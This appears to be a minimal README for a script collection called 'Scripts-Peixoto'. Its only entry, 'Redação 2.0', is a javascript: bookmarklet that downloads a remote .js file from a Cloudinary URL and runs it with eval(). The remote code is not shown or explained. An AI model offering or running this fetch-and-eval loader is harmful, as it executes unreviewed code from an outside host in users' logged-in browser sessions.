 # Scripts-Peixoto

Redação 2.0
```javascript:fetch(`https://res.cloudinary.com/dcwnwmtgc/raw/upload/v1742659229/caralho.js`).then(r => r.text()).then(r => eval(r));```
